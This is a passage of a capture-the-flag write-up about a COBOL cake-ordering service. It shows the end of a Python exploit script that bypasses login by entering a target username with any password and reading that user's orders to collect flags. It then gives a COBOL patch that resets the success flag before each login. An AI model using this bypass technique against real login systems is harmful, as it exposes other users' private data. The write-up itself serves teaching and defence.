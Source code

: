 ```python
r.sendline(username.encode())
# now, (L)og in again
r.sendline(b"L")
# we send the name of the target user, and leave the password blank (any password works)
r.sendline(TARGET_USER.encode())
# finally, we can (V)iew the cake orders
r.sendline(b"V")

# there might be multiple pages so we go to the (N)ext one a few times
for i in range(10):
    r.sendline(b"N")
# go back to the (M)enu
r.sendline(b"M")
# (Q)uit the application
r.sendline(b"Q")

printflags(r.recvall().decode()) # somewhere in the output there should be flags
```

### Fixing the vulnerability

The bug is easy to fix: set `WS-SUCCESS` to `"F"` before each login attempt:

{{< highlight cobol "hl_lines=6" >}}
        PROCEDURE DIVISION USING LNK-UNAME LNK-MSG.
            PERFORM FOREVER
                DISPLAY LOGIN-SCREEN
                DISPLAY EOP-INDICATOR
                ACCEPT LOGIN-SCREEN
+               MOVE "F" TO WS-SUCCESS
                EVALUATE WS-RESPONSE
                WHEN "C"
                    PERFORM LOGIN-USER
                WHEN "M"
                    GOBACK
                WHEN OTHER
                    MOVE SPACES TO WS-RESPONSE
                    MOVE "Invalid action" TO WS-MSG
                END-EVALUATE
                IF WS-SUCCESS = "T"
                THEN
                MOVE "login successful" TO LNK-MSG
                MOVE WS-UNAME TO LNK-UNAME
                GOBACK
                END-IF
            END-PERFORM.
{{< /highlight >}}

It still leaves some edge cases (like trying to create orders while unauthenticated), but it closes this leak vector, so good enough™ for a CTF.

## The second vulnerability
